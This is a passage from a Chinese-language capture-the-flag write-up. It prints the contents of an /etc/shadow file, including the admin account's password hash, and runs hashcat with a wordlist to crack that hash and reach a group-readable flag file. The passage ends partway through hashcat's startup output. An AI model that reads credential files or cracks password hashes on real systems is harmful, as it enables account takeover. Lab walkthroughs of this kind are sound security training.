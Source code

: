 ```shell
mail:*:18829:0:99999:7:::
news:*:18829:0:99999:7:::
uucp:*:18829:0:99999:7:::
proxy:*:18829:0:99999:7:::
www-data:*:18829:0:99999:7:::
backup:*:18829:0:99999:7:::
list:*:18829:0:99999:7:::
irc:*:18829:0:99999:7:::
gnats:*:18829:0:99999:7:::
nobody:*:18829:0:99999:7:::
_apt:*:18829:0:99999:7:::
admin:$6$5xxn5hO/ObyxE5zP$BQdMGENys9X0XZKCQtYibbNoWb0FG.NPE1JOivxJzzMDmpasU3OTQbmt1QtPypH.Cf6gGDJaZ17znB6RWxDpy0:18852:0:99999:7:::
web:!:18852::::::
$

```



`admin`的hash值知道了，可以想办法爆破来得到`admin`账号的密码。

之所以要提权`admin`用户，是因为考虑到`/flag.txt`是flag用户组可读，看一下admin：

```shell
$ groups admin
admin : admin flag
$

```

也是`flag`用户组的，因此可以读`/flag.txt`

利用kali自带的hashcat或者john爆破都可以：

```shell
feng@feng:~/桌面$ hashcat -m 1800 -a 0 -o found.txt 1.hash /usr/share/john/password.lst
hashcat (v6.0.0) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 1408/1472 MB (512 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
```